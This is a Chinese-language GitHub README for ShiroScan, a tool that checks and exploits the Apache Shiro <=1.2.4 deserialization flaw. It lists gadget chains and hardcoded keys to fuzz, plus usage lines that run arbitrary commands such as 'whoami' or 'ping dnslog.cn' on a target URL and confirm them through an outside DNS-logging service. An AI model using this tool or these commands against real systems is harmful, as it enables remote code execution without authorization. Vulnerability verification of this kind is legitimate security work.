 # ShiroScan
Shiro&lt;=1.2.4反序列化，一键检测工具

    改动内容：1.新增17个利用链模块,共28个利用链，预计增加成功率30%，已打包成新ysoserial的jar包，请勿更换
    改动内容：2.可直接获得目标使用key值
    改动内容：3.新增30个key(再多意义也不大)
    改动内容：4.输入命令自动进行bash编码，防止未了解此漏洞的人踩坑

```
共集成51个key进行fuzz
```
![](./run.png)
* 如果有帮助，请点个star哦， 上一个版本对应blog文章：http://www.svenbeast.com/post/tskRKJIPg/
* pip3 install -r requirments.txt   
* 若import模块错误，安装不成功，请到linux系统安装运行，或者去python库将crypto首字母改为大写并尝试pip install pycryptodome")
* 如果存在异常java信息，请使用jdk1.8环境运行，避免使用高版本java运行

* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  http://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 28个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为目标使用的编码很冷门，可使用其他工具

* 请自行收集编码，在moule下的key.log中自行添加即可(格式: key:任意值)

## 不推荐当做exp使用，效率问题
## 仅供安全人员验证,测试是否存在此漏洞

